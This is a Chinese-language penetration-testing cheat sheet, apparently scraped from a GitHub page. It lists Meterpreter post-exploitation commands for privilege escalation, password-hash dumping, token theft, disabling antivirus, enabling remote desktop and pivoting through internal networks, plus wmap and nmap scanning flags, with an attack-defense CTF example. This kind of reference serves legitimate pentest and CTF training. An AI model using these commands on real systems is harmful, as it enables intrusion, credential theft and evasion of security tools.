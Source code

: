 ```bash
meterpreter > getuid  查看当前用户权限
meterpreter > use priv  加载特权模块
meterpreter > getsystem  提升到SYSTEM权限
meterpreter > hashdump  导出密码散列
meterpreter > ps   查看高权限用户PID
meterpreter > steal_token <PID>  窃取令牌
meterpreter > rev2self  恢复原来的令牌 
meterpreter > migrate pid  迁移进程
meterpreter > run killav  关闭杀毒软件 
meterpreter > run getgui-e  启用远程桌面
meterpreter > portfwd add -l 1234 -p 3389 -r <目标IP>  端口转发
meterpreter > run get_local_subnets  获取内网网段信息
meterpreter > run autoroute -s <内网网段>  创建自动路由
meterpreter > run autoroute -p  查看自动路由表
创建代理通道:
msf > use auxiliary/server/socks4a   设置socks4代理模块
msf auxiliary(socks4a) > show options 
msf auxiliary(socks4a) > run
配置proxychains参数：
nano /etc/proxychains.conf   修改代理监听端口,和前面端口一致
quite_mode  设置成安静模式：去掉如下参数前面的注释
```

### 插件

#### wmap

添加网址:`wmap_sites -a`

添加目标:`wmap_targets -t` 

加载模块:`wmap_run -t`

开始扫描:`wmap_run -e`

查看结果:`wmap_vulns -l`

## nmap



•ICMP扫描：nmap  -sP 192.168.1.100-254

•尝试检测目标操作系统：-O

•SYN扫描：-sS

•操作系统版本检测：-sV

•AWD常用命令

​	nmap –sS –p 1337 172.16.0.0/24

-sP ：进行ping扫描

打印出对ping扫描做出响应的主机,不做进一步测试(如端口扫描或者操作系统探测)： 
